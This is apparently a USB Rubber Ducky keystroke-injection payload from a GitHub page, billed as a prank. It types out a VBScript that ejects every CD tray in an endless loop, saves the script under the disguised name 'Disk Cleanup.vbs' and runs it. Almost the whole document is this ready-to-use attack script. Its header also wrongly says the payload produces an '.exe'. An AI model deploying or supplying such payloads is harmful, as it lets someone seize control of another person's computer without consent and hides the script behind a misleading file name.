 REM Author: Windy42
REM 
REM Description: This will make an .exe that will open the disk tray over and over again.
REM 
REM Note: I do not take all credit for writing this, the prank has been written many times I just converted it into a Payload.

```
GUI d
DELAY 300
GUI r
STRING notepad
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count - 1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL s
DELAY 100
STRING %userprofile%\Disk Cleanup.vbs
ENTER
DELAY 200
ALT F4
DELAY 100
GUI d
DELAY 100
GUI r
STRING Disk Cleanup.vbs
ENTER
```
